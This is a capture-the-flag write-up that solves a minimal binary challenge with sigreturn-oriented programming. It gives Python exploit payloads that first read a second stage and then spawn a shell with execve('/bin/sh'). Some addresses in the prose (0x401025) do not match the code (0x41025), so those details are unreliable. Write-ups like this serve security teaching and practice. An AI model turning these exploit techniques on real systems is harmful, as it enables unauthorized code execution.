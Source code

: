# Moving signals
#### Description
We don't like giving binaries that contain loads of information, so we decided that a small program should do for this challenge. Even written in some custom assembly. I wonder how this could be exploited.
#### Author
Tango
#### Points and solves
442 points, 91 solves.


We are given an extermly small binary:

```asm
0x0000000000041000 <+0>:     mov    rdi,0x0
0x0000000000041007 <+7>:     mov    rsi,rsp
0x000000000004100a <+10>:    sub    rsi,0x8
0x000000000004100e <+14>:    mov    rdx,0x1f4
0x0000000000041015 <+21>:    syscall
0x0000000000041017 <+23>:    ret
0x0000000000041018 <+24>:    pop    rax
0x0000000000041019 <+25>:    ret
```

## The vulnerability:
Well, of course we have full control over ```rip``` using the read syscall.
In addition we have a ```syscall``` gadget to use for ```sigreturn``` and ```execve```



## 1. Getting sigreturn:
```python
payload = b"A"*8 + p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = 0x41025
frame.rdx = 0x300
frame.rsp = 0x41025
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload)
```
This payload sets ```rax = 0xf``` and syscalls, the frame that is loaded gives the registers the values:
1. ```rax = 0``` for ```read``` syscall
2. ```rdi = 0``` for ```stdin```
3. ```rsi = 0x401025``` is the only known address that is also writeable, (which is right after the given code)
4. ```rsp = 0x401025``` is to align the stack right back to where we are reading into.
5. ```rip = syscall_ret``` to execute this read syscall.
Basically we read the next phase of this exploit into the code segment of the binary, and after that has been done, 
We will return to whatever that will be written to address ```0x401025```

## 2. Getting shell:
```python
payload = p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = 0x41025+248 + 0x18
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x41000
frame.rip = syscall_ret
payload += bytes(frame) + b"/bin/sh\x00"
```

This utilizes another ```sigreturn``` to load the values required to perform ```execve(/bin/sh)```
1. ```rax = 59``` for ```execve``` syscall
2. ```rdi = 0x401026 + 248 + 0x18``` for the address that ```/bin/sh``` will be on the stack.
3. ```rsp = 0x41000``` just to have some stack space for saftey.


And we get shell :).

#### Flag
```flag{s1gROPp1ty_r0p_321321}```

